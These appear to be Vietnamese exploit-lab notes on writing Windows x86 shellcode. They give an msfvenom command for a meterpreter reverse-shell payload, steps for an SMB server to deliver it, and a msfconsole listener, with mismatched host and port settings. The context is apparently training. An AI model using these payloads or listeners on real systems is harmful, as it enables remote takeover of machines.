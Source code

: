 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
<Địa chỉ IP>      kali
```

Để tạo SMB server ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Để tạo listener trên máy kali khi thực thi shellcode:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
